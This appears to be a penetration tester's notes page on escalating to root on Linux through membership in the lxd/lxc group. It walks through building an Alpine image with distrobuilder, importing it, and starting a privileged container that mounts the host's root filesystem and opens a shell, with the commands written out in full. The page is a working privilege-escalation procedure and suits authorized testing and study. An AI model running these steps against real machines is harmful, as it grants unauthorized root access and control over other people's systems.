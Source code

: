 ```yaml
---
description: If you belong to lxd or lxc group, you can become root
---
```


# lxd/lxc group

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)



### Linpeas result

{% code overflow="wrap" %}
```bash
./linpeas.sh # or just type id to check the lxd gropu assgined to current user.
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

## Escalation Steps

### Prepare tools and create an image

You can install in your machine this distro builder: [https://github.com/lxc/distrobuilder ](https://github.com/lxc/distrobuilder)(follow the instructions of the github):

```bash
sudo su
#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
git clone https://github.com/lxc/distrobuilder
#Make distrobuilder
cd distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```

This will create two files: lxd.tar.xz and rootfs.squashfs.&#x20;

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

### Add the image

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

### Initiate LXD

{% code overflow="wrap" %}
```bash
# Let's initiate the container and keep all options default. 
lxd init 
```
{% endcode %}

### Create a container, add root path, and execute the container

```bash
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```

<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>
